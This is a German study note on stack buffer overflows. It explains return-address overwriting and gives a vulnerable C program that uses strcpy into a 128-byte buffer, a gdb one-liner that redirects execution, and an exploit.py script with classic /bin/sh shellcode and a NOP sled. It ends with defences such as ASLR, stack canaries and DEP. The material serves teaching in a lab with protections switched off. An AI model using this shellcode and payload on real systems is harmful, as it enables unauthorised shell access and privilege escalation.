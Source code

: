 Ein Buffer Overflow (oder Pufferüberlauf) ist, wenn eine Variable ihren eigentlich angedachten Speicherbereich überschreitet. Die kann zum Beispiel passieren, wenn ein Speicherbereich für einen String der Länge 10 reserviert wurde, jedoch ein String der Länge 20, ohne Überprüfung in den Speicherbereich geladen wird.  

Puffer = Speicherbereich
Pufferüberlauf: Die Menge der in den Puffer zu schreibenden Daten ist größer als der Speicherbereich -> Überlauf

## Normale Abarbeitung eines Programms
1. Schrittweise Abarbeitung der Maschinenbefehle, nächster Befehl bei nächsthöherer Speicheradresse
2. Hauptprogramm: Sprunganweisung in ein Unterprogramm (inkl. Parameterübergabe)
	- Herkunftsadresse (Ort von wo das Unterprogramm im Hauptprogramm gestartet wird) muss sich gemerkt werden um an dieser Stelle später das Hauptprogramm fortzuführen
3. Um nach Unterprogramm das Hauptprogramm fortsetzen zu können, wird die Rücksprungadresse auf dem Stack abgelegt.
4. Variablen des Unterprogramms benötigen ebenfalls Platz auf dem Stack -> Trennung zwischen Adresse und Variablen -> `Stack Basepointer` 
5. Sprung in das Unterprogramm
6. Abarbeitung der Maschinenbefehle des Unterprogramms
7. Ende des Unterprogramms 
	1. Rücksprungadresse vom Stack holen
	2. Speicher auf dem Stack wieder freigeben
	3. Rücksprung in das Hauptprogramm
8. Fortsetzung des Hauptprogramms

## Buffer Overflow herbeiführen
Im oben aufgeführten Programmablauf lässt sich ein Buffer Overflow missbrauchen, indem man bei der Ausführung des Unterprogramms einen Buffer Overflow nutzt um (z.B. durch Nutzereingabe eines Strings) den Speicher bis zum `Stack Basepointer` mit dem eigenen Code zu überschreiben. Der `Stack Basepointer` soll dabei auf die Speicheradresse des eingeschleusten Code zeigen. 
Sobald zu der in der Rücksprungadresse gespeicherten Adresse gesprungen wird, wird der eingeschleuste Code ausgeführt.

Herausforderung aus Angreifer-Sicht:
1. Er weiß nicht an welcher Stelle im Speicher sich die absolute Rücksprungadresse befindet.
   -> Rücksprungadresse mehrfach oberhalb Exploit-Code
2. Er kennt die absoluten Speicheradressen des Programms nicht.
   -> "Landezone" unterhalb des Exploit Code (NOP: no operation)
3. Zeichenkette darf keine `Null`-Bytes enthalten.
   -> Verwendung einer geeigneten Codierung

### Code Beispiele
Damit folgende Beispiele funktionieren wurden einige Sicherheitsmaßnahmen im Betriebssystem deaktiviert.
Siehe auch [[gdb (GNU Debugger)]]. Dieses CLI-Tool wurde verwendet um während des Programmablaufs den Speicher betrachten zu können.

#### Konsolenausgabe
`target0`:
``` C
void versteckt() {
	// Ausgabe eines Strings auf der Standardausgabe
	fprintf(stdout, "You have been pwnd!\n");
}
int funk2(char *arg, char *out) {
	// Kopiert von arg nach out bis arg Nullterminiert (0x00)
	strcpy(out, arg);
	return 0;
}
int funk1(char *argv[]) {
	// allociert 128 Bytes an Speicher
	char buffer[128];
	// ruft funk2 mit dem ersten CMD-Argument auf
	funk2(argv[1], buffer);
}
int main() {
	// Überprüfe, dass genau ein Kommanozeilenparameter übergeben
	// wurde, andernfalls gib eine Fehlermeldung aus
	if (argc != 2) {
		fprintf(stderr, "target0: argc != 2\n");
		exit(EXIT_FAILURE);
	}
	// Rufe funk1 auf
	funk1(argv);
	return 0;
}
```
Die Funktion `versteckt` wird innerhalb von dem Skript `target0` nie aufgerufen. Dennoch lässt sich das Programm über ein Kommandozeilenparameter so manipulieren, dass die Funktion `versteckt` aufgerufen wird. 
Für die Variable `buffer` wurden 128 Bytes an Speicher allokiert. Im Anschluss an den für die Variable `buffer` reservierten Speicher liegt der `Stack Basepointer` (4 Bytes )und im Anschluss daran die `Rücksprungadresse` (ebenfalls 4 Bytes). Da in `funk2` mit dem Methodenaufruf `strcpy` keine Kontrolle stattfindet, ob das Ziel des Kopiervorgangs auch groß genug ist für das übergebene char-Array, lässt sich ein `buffer overflow` herbeiführen und die `Rücksprungadresse` manipulieren.
In diesem Fall wird ein char-Array mit einer Länge von 136 Bytes benötigt um den `Stack Basepointer` und die `Rücksprungadresse` zu überschreiben. Wenn also die letzten 4 Byte des char-Arrays der physischen Adresse der `versteckt`-Funktion entsprechen, wird Diese ausgeführt.

Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run target0 ``python -c "print('A'*132 + '\xbb' + '\x84' + '\x04' + '\x08')"`
```
Vorausgesetzt die physischen Adresse der `versteckt`-Funktion lautet `0x80484bb`
Es entsteht zwar ein `Segmentation Fault` am Ende, doch vorher wurde die `versteckt`-Funktion ausgeführt.

#### Öffnen einer Shell
Statt einfach nur 132 A's in die `buffer`-Variable zu schreiben lässt sich auf diese Weise auch weiterer Maschinencode in ein Programm einschleusen. Zur Generierung des Maschinencodes für die Öffnung einer Shell, lässt sich folgendes Python-Skript nutzen:
`exploit.py`
``` python
# Maschinencode zur Öffnung einer Shell von Aleph One
sc = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
# Speicheradresse von buffer, little endian beachten
buffer_addr = '\x8c\xf5\xff\xbf'
length_buffer = 128
size_ebp = 4 # Länge des Stack Basepointer (Bytes)
size_eip = 4 # Länge der Rücksprungadresse (Bytes)
total_length_input = length_buffer + size_ebp + size_eip
# Ausgabe erzeugen, inkl. NOP Sliding
print((total_length_input - len(sc) - len(buffer_addr)) * '\x90' + sc + buffer_addr) 
```
Die Variable `buffer_addr` muss entsprechend auf die Adresse angepasst werden, wo die Variable im physischen Speicher abgelegt ist. Diese muss jedoch nicht ganz exakt sein, da folgend auf die Adresse die `NOP`-Operation (`\x90`) als eine Art "Landezone" steht. Dadurch funktionieren höhere Adressen (bis zu einem gewissen Grad) auch noch.
Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run `python exploit.py`
```
Die dabei geöffnete Shell besitzt die gleichen Rechte, wie das ausgeführte Programm. Der nächste Schritt wäre nun z.B. eine `privilege escalation` zu erreichen um an `root`-Rechte zu kommen.

## Schutzmaßnahmen gegen Pufferüberläufe: 
<b>Never trust user input</b>
- sorgfältige Programmierung und Nutzung entsprechender Compiler-Funktionen
- Überprüfung des Programmcodes mit speziellen Werkzeugen
- ASLR ( `Address Space Layout Randomization` )
	- Alle Programmteile und alle eingebundenen Bibliotheken müssen ASLR aktiviert haben, sonst ist der Schutz nicht gegeben.
	- virtuelle Adressen werden durchgemixt
- `Stack Canaries` bzw. `Stack Cookies`
	- Im Stack wird zwischen Rücksprungvariable und den eigentlichen Variablen ein zufälliger Wert gespeichert.
	- Bevor die Rücksprungadresse aufgerufen wird wird überprüft, ob sich dieser zufällige Wert geändert hat.
- `Shadow Stack`
	- Man hat einen vom Haupt-Stack getrennten, zusätzlichen Stack, der nur Rücksprungadressen speichert.  Vor dem Rücksprung vergleicht die CPU ob die normale Rücksprungadresse der `Shadow-Stack`-Adresse entspricht
	- Intel CET ( `Control-Flow Enforcement Technology` ) setzt seit Windows 10 diese Taktik um.
- ESP ( `Excecutable Space Protection` ) 
	- Unter Windows heißt es `Data Excecution Prevention`
	- Es kann nur noch Code ausgeführt werden, welcher innerhalb des für Programmcode reservierten Speicherbereichs liegt.

